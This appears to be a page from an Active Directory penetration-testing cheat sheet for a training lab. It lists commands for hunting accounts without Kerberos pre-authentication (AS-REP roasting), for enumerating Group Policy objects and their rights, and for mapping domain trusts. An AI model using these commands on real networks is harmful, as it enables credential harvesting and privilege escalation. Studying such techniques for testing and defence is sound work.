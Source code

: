 #### Hunting for Users with Kerberoast Pre-auth Not Required
```Shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

### Group Policy Object (GPO) Abuse

#### Enumerating GPO Names with PowerView
```PowerShell
Get-DomainGPO |select displayname
```

#### Enumerating GPO Names with a Built-In Cmdlet
```PowerShell
Get-GPO -All | Select DisplayName
```

#### Enumerating Domain User GPO Rights
```PowerShell
$sid=Convert-NameToSid "Domain Users"
```

```PowerShell
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

#### Converting GPO GUID to Name
```PowerShell
Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```

## Trust Relationships - Child > Parent Trusts

### From Windows

#### Using Get-ADTrust
```PowerShell
Import-Module .\Import-ActiveDirectory.ps1
```

```PowerShell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```
Used to import the `Active Directory` module. Performed from a Windows-based host.

```PowerShell
Get-ADTrust -Filter *
```
PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.

#### Checking for Existing Trusts using Get-DomainTrust
```PowerShell
Get-DomainTrust
```
PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.
